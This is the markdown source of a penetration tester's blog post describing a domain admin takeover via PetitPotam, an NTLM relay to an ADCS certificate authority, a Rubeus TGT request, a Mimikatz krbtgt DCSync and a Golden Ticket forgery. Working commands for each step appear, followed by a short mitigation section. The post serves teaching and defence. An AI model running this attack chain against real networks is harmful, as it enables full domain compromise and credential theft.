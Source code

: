 ```yaml
---
layout: single
date: 2022-04-22
title: "Pwning Domain Admin with PetitPotam"
toc: true
draft: false
type: ["posts","post"]
categories:
  - Courses
tags:
  - ActiveDirectory
  - RedTeam
  - Pentest
  - PetitPotam
  - NTLM Relay
  - ADCS
---
```

**Disclaimer:**
Original research was done by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) in their [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) whitepaper.

[PetitPotam](https://github.com/topotam/PetitPotam) PoC was written by [Lionel Gilles](https://twitter.com/topotam77).

I still need to conduct more research and experiment to fully understand this attack and the underlying technicalities.


## Introduction
In a recent network pentest, I found an ADCS CA (Active Directory Certificate Services Certificate Authortity) on the target domain. I haven't gotten a chance to play around with ADCS before, but I did remember reading about one attack technique called [PetitPotam](https://github.com/topotam/PetitPotam) that abuses NTLM Relay via ADCS to take over the domain. After some time reading up about the technique and getting my hands dirty, I have successfully compromised DA! This blog post will be a quick rundown of how I got DA using this attack.

### Active Directory Certificate Services
At a high level, ADCS is a server role in Windows Active Directory that allows users to build a Public Key Infrastructure (PKI). This means that it can provide digital certificates and digital signature capabilities, improving confidentiality via encryption and integrity via digital signatures. The practical applications of ADCS are SSL/TLS, VPN (Virtual Private Network), IPSec (Internet Protocol Security), EFS (Encrypting File System), Smart Card logon, and more.

### PetitPotam
PetitPotam is an attack technique that abuses NTLM Relay via ADCS CA with Web Enrollment enabled by exploiting the MS-EFSRPC (Encrypting File System Remote Protocol). This technique allows an **unauthenticated** attacker in the internal network to force the Domain Controller (DC) machine account to authenticate towards a machine with NTLM relay configured (the attacker machine). This authentication will then be relayed to the CA Web Enrollment to request for a certificate as the DC. This certificate can be captured and be used to request for a TGT as the DC machine account. With this TGT, Mimikatz can be used to dump credentials of the DA or the krbtgt account to fully compromise the Active Directory environment.

## Action
From the foothold domain machine, I did some enumeration and was able to locate a CA in the domain. A native Windows tool called `certutil.exe` or [Certify](https://github.com/GhostPack/Certify) can be used for this purpose. Certify is a C# tool to enumerate and abuse misconfigurations in ADCS, this tool can also be used to look for vulnerable certificate templates. Misconfiguration in certificate templates can lead to privilege escaltion, unfortunately, no vulnerable template was identified.
{{< image src="/images/CA_.png" alt="CA" position="left" style="border-radius: 8px;" >}}
*Identified CA*


With this, I was able to launch the ADCS Relay attack. The idea is to corece the DC to connect to the attacker machine, then relay the credential of the DC machine account to the ADCS server and request for a certificate (on behalf on the DC$). With this certificate, we can request for a TGT as the DC, and proceed to pwn the whole environment.

From the attacker box, launch `ntlmrelayx.py`:

``` bash
ntlmrelayx.py -debug -smb2support --target https://ca-hostname/certsrv/certfnsh.asp --adcs --template domaincontroller
```
The `--template` argument would depend on the account that would be relayed. Since I was relaying a DC, then the template should be `domaincontroller`, you could enumerate the template on the ADCS using Certify: `Certify.exe cas`

On another window on the attacker box, launch [PetitPotam](https://github.com/topotam/PetitPotam) against the DC:

``` bash
sudo python3 petitpotam.py <Attack box's IP> <DC's IP>
```

The attack was successful, on the ntlmrelayx window, a Base64 encoded certificate of the DC machine account was captured:
{{< image src="/images/b64cert.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Base64 certificate of DC$*


From here, I proceeded with requesting for a TGT of DC$ using `Rubeus`:

``` powershell
Rubeus.exe asktgt /user:DC$ /domain:<domain> /certificate:<base64-certificate> /ptt
```
With the `/ptt` option, the returned TGT of DC$ would be imported into my current user session.
\
From here, a threat actor can aim for the highest prize by dumping the AES256 encryption key of the krbtgt account to forge a Golden Ticket:
Launch Mimikatz and dump the AES256 encryption key:

``` powershell
# From mimikatz:
lsadump::dcsync /domain:<domain> /user:krbtgt
```
Once the AES256 encryption key of the krbtgt account has been captured, the Golden Ticket could be forged:

``` powershell
# From Mimikatz:
kerberos::golden /user:Administrator /domain:<domain> /sid:<SID of the domain> /aes256:<aes256 key> /ticket:goldie.kirbi
```
Proceed to inject the Golden Ticket:

``` powershell
Rubeus.exe ptt /ticket:goldie.kirbi
```
GG!

## Mitigation

The misconfiguration has been mitigated immediately by enabling Extended Protection for Authentication (EPA) for CA Web Enrollment and Certificate Enrollment Web Service.

Addition mitigations that are recommended by Microsoft are:
- Disable NTLM Authentication on Windows Domain Controllers.
- Disable NTLM on any ADCS server using Group Policy.
- Disable NTLM for Internet Information Services (IIS) on AD CS Servers in the domain running the "Certificate Authority Web Enrollment" or "Certificate Enrollment Web Service" services.
\

More information can be found [here](https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?ranMID=46131&ranEAID=a1LgFw09t88&ranSiteID=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&epi=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&irgwc=1&OCID=AID2200057_aff_7806_1243925&tduid=%28ir__pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00%29%287806%29%281243925%29%28a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA%29%28%29&irclickid=_pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00)
